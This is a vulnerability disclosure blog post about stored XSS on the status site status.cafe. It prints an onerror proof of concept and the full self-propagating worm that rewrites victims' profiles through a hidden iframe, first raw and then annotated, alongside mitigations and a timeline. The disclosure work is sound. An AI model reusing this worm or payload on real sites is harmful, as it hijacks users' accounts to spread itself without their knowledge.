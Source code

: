 ```yaml
---
layout: '../../../layouts/PostLayout.astro'
title: 'XSS on Status Cafe: What you need to know'
published: 06/16/2025 23:00
description: As these kinds of vulnerabilities should be fixed, I think this post might give you an insight of how does this vulnerability affects you if you're using status.cafe.
tags: vulnerability, xss, status-cafe
background: '/imgs/posts/status-cafe-xss/image.png'
---
```


Hey there! [Status Cafe](https://status.cafe/) is a status-posting site where users can share their status for anyone can see, and it's popular among indie web developers as it's easy to use it for posting your own status and embedding it on your site.

Each user has their own page that shows their status history and whatnot. It contains some things, like your profile image, a "Subscribe via Atom" link, your homepage, email, and an about me section.

![My status cafe profile page](/imgs/posts/status-cafe-xss/image2.png)

But there's another thing, the about me section accepts HTML and CSS! Most people uses it for like styling their page, and like removing unnecessary things.

![A styled status cafe profile page (from rice.place)](/imgs/posts/status-cafe-xss/image3.png)

There's also some people that makes their status cafe profile page look distinct from other sites by using CSS to remove things and readding it with HTML, like me!

![my jbsite4-themed status cafe profile page](/imgs/posts/status-cafe-xss/image4.png)

But, the thing it doesn't support is JavaScript. Adding script tags on it will result to this:

![a page saying <script> tags is forbidden](/imgs/posts/status-cafe-xss/image5.png)

But, it **should** sanitize user input and remove any mentions of JS, right? *right???*

Script tags are blocked, but what about some workarounds? Let's try the classic img tag onerror XSS trick... and it worked.

![an alert window saying 'xss'](/imgs/posts/status-cafe-xss/image6.png)

That means that it's not sanitizing event handler based scripts, which lead into the status.cafe worm.

# Things you need to know
> 🗒️ Before I say anything else, I will say that your status cafe token is not sent into an attacker, and they can't do it. That's because the token cookie uses HttpOnly as it should.
> This means that **no account has been stolen**.

The XSS vulnerability uses [HTML event handler attributes](https://developer.mozilla.org/en-US/docs/Learn_web_development/Core/Scripting/Events#inline_event_handlers_%E2%80%94_dont_use_these), which usually is frowned upon as they are outdated and will result on messy code, but the indie web still uses these *(that's why MDN says to not use these)*.

What does that mean? It means that an attacker can run scripts on your browser without you knowing, which is bad when executed properly.

## Technical Info
Status Cafe doesn't fully sanitize user input, which leads on this vulnerability.

If you include a code like this on your about page:
```html
<img src="x" onerror="alert('XSS')">
```

It will not sanitize `onerror`, which is really bad for a reason.

## What can attacker do with this?
There are things an attacker can do with this, even though they can't get your cookie:
- Post statuses on your behalf
- Change your profile info
- Make a browser do things you didn't do
- Change things you see on the site
- *and many more...*

## Mitigation
For now, you can use this uBlock Origin custom filter rule to block scripts on user pages:
```
||*status.cafe/users/*$csp=script-src 'none'
```

You can also disable JS on the entire site, which I think works fine as status.cafe works primarily out of HTML form elements.

## What should Status Cafe do?
- Sanitize user input. It already somewhat sanitizes input (like \<script\> tags is not allowed) but a full sanitization of user input is better than a half-baked one, as this worm uses inline event handlers (like onload or onerror)
- Implement better Content-Security-Policy headers (like preventing inline scripts from running on user pages) to prevent other XSS misuse.
- Implement better CORS to prevent scripts from fetching user settings for example
- Make it so the settings pages and such to block being able to load in iframes. This can be implemented by using X-Frame-Options or the Content-Security-Policy headers.

# One more thing - Status Cafe Status Widget Self-XSS 
This is also related on XSS but it's much different than the other one, but the first vulnerability can post this on your profile and make your site have a vulnerability, but this is much harder to do without being noticed.

This is because the widget uses innerHTML, and it just putting user status without sanitizing it, which is also bad. It's reasonable to use innerHTML for this as status.cafe also have automatic link handling for example.

# Extra - Looking at the Status Cafe worm
> 🗒️ I'm going to be a bit technical about this.

The worm code looks like this at it's raw:
```html
<img src="x" style="display:none;" onerror="/*the silly worm*made by ???*should probably not infect the same person twice*also pls dont remove js, i think it'd be cool to keep it so that it allows funny stuff like this to happen*xoxo and merry christmas*  -???*/(async()=>{if(document.location.search=='?qw'){const d=new DOMParser().parseFromString(await(await fetch('https://status.cafe/settings')).text(),'text/html');if(!d||d.querySelector('textarea')?.outerHTML.includes('&amp;'+'lt;!--javaistrash--&amp;'+'gt;')){throw 0};d.querySelector('textarea').innerText+='\n<!--javaistrash-->';d.querySelector('textarea').innerText+='\n'+this.outerHTML;d.querySelector('form').id='123';document.body.append(d.querySelector('form'));document.getElementById('123').querySelector('input[type=submit]').click()}else{const nu=new window.URL(document.location.href);nu.search='?qw';const f=document.createElement('iframe');f.setAttribute('style','display:none;');f.setAttribute('src',nu.href);document.body.append(f)}})()">
```

Quite long, isn't it? Let's remove the unnecessary code and beautify it:
```js
(async () => {
    if (document.location.search == '?qw') {
        const d = new DOMParser().parseFromString(await (await fetch('https://status.cafe/settings')).text(), 'text/html');
        if (!d || d.querySelector('textarea')?.outerHTML.includes('&amp;' + 'lt;!--javaistrash--&amp;' + 'gt;')) {
            throw 0
        };
        d.querySelector('textarea').innerText += '\n<!--javaistrash-->';
        d.querySelector('textarea').innerText += '\n' + this.outerHTML;
        d.querySelector('form').id = '123';
        document.body.append(d.querySelector('form'));
        document.getElementById('123').querySelector('input[type=submit]').click()
    } else {
        const nu = new window.URL(document.location.href);
        nu.search = '?qw';
        const f = document.createElement('iframe');
        f.setAttribute('style', 'display:none;');
        f.setAttribute('src', nu.href);
        document.body.append(f)
    }
})()
```

The code is wrapped into an [IIFE](https://developer.mozilla.org/en-US/docs/Glossary/IIFE), which makes it run almost immediately and with async support.

It looks for an `?eq` search string on the URL and runs 2 different things if there is one or if there is none:

## If there is one
```js
// Fetches the status cafe settings, and parses it using DOMParser
const d = new DOMParser().parseFromString(await (await fetch('https://status.cafe/settings')).text(), 'text/html');

// Looks if there's already an instance of the worm, and if so, throws an error with content `0`
if (!d || d.querySelector('textarea')?.outerHTML.includes('&amp;' + 'lt;!--javaistrash--&amp;' + 'gt;')) {
    throw 0
};

// appends <!--javaistrash-->, which makes the above work
d.querySelector('textarea').innerText += '\n<!--javaistrash-->';

// then it appends the script itself
d.querySelector('textarea').innerText += '\n' + this.outerHTML;

// then it changes ids
d.querySelector('form').id = '123';

// then it appends it on the iframe
document.body.append(d.querySelector('form'));

// and clicks the submit button, which makes it infect your profile with the worm
document.getElementById('123').querySelector('input[type=submit]').click();
```

## If there is none
```js
// Evaluates the current URL
const nu = new window.URL(document.location.href);

// adds ?qw on it
nu.search = '?qw';

// then it creates an iframe
const f = document.createElement('iframe');

// then it sets itself to display: none, which makes it invisible to the user vising the page
f.setAttribute('style', 'display:none;');

// then it sets the src of the iframe
f.setAttribute('src', nu.href);

// and finally, it appends the iframe into the body
document.body.append(f);
```

# Timeline
- **2023-07-12** - disclosed by divsel in the [status.cafe forums](https://forum.status.cafe/topics/74)
- **2025-04-23** - first report of an worm being spread into status.cafe
- **2025-05-22** - emailed status.cafe developer about it, for an update
- **2025-06-16** - public disclosure

# Wrap-up
Although this would not compromise your status.cafe account, you should be still wary of visiting other people's user pages while this hasn't been fixed yet.

Also, I recommend following the [mitigation steps](#mitigation) above, which makes your browser almost immune on the worm.